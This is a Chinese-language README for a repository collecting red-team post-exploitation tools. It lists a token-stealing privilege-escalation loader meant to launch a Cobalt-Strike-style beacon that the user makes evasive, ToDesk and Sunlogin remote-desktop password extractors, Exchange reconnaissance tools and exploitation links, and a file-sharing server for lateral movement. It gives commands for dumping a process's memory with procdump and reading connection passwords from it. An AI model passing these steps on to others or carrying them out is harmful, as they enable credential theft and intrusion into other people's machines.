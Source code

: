 # tools-collect
tools collect

## 1. TokenTest.zip    
用途：实现一个窃取令牌来权限提升的loader   
使用：TokenTest.exe beacon.exe（beacon.exe自行做免杀即可）   
原文链接：https://mp.weixin.qq.com/s/xvgzmtXfyanpWLlw7uQOzA   

## 2. todeskpass.zip，Todesk密码提取.zip，向日葵密码提取器.zip
用途：todesk/sunlogin最新版设备代码、连接密码读取   
版本：todesk官网最新版：4.7.4.8   
使用：   
tasklist /svc   
procdump64.exe -accepteula -ma 11652(实际的pid)   
todesk_pass.exe   
原文链接：https://mp.weixin.qq.com/s/SLIEg36LOJpJYgY6N-0dGg    

## 3. Exchange 信息收集工具
用途：Exchange信息收集工具    
Exchange利用：    
https://forum.butian.net/share/1837    
https://mp.weixin.qq.com/s/_1R22o94pykFJgphVLUgXg    
https://github.com/ffffffff0x/1earn/blob/master/1earn/Security/RedTeam/%E5%90%8E%E6%B8%97%E9%80%8F/%E5%AE%9E%E9%AA%8C/Exchange.md    
https://evi1cg.me/archives/Exchange_Hack.html    
原文链接：https://mp.weixin.qq.com/s/oUXAdl4CvDrX_9Rc6Ax1XQ    

## 4. chfs文件共享工具
用途：当我们在打攻防比赛中会遇到内网机器不出网的问题，这个时候往不出网的机器上上传文件就比较困难，chfs内网文件共享工具，仅需在命令行环境运行，即可生成小型的web服务器，方便命令行情况下下载文件，适用于内网大规模机器不出网的环境下，会给横向移动带来很大方便！    
工具地址：http://iscute.cn/chfs    
windows使用命令：chfs.exe --port=8081 -path C:\\    

## 5. sundeskQ 向日葵、todesk临时密码，安全密码读取工具
用途：向日葵、todesk临时密码，安全密码读取工具    
工具地址：https://github.com/milu001/sundeskQ
![image](https://github.com/user-attachments/assets/7cfe4b22-e91b-4827-a4a6-4eceec66610e)    
![image](https://github.com/user-attachments/assets/c0c23f85-95b5-40e6-83a2-e6c1675ef726)    



